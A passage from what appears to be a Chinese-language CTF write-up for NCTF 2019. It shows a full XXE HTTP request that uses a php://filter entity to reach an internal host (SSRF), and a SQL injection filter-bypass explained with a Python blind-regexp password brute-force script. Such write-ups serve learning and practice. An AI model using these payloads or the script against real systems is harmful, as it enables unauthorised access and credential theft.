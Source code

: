 
SSRF
Burp Suite Introuder 爆破

192.168.1.8出了flag.....

```
POST /doLogin.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40003
Content-Length: 220
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://nctf2019.x1ct34m.com:40003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
DNT: 1
Content-Type: application/xml;charset=UTF-8
Referer: http://nctf2019.x1ct34m.com:40003/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://192.168.1.8">
 ]>

<user><username>&xxe;</username><password>123</password></user>
```

## 0x03 SQLi (赛后复现)

直接给了sql语句

```sql
select * from users where username='' and passwd=''
```
但是过滤了一堆``select . or ' like``基本都过滤了

然后这里的bypass技巧是

> 单引号可以使用``\``来转义绕过，``or``可以采用``||`` ``=``可以采用``regexp``,``#``可以用``\x00`替代

然后基本上么得跨表查询，就只能盲注爆破password了

exp 核心代码部分
```python
def boolequ(start,end):
    ret=""
    for i in range(start,end):
        for ch in pt:
            payload="""||passwd/**/REGEXP/**/"^{}";\x00""".format(ret+ch)
            data = {
                "username":'\\',
                "passwd":payload
            }
            #print data
            req=requests.post(url,data=data,allow_redirects=False)
            if req.status_code!=200 and req.status_code!=302:
                continue 
            if req.status_code==302:
                ret=ret+ch
                sys.stdout.write("[-]Result : -> {0} <-\r".format(ret))
                sys.stdout.flush()
                break
    print("[+]Result : ->"+ret+"<-")
```
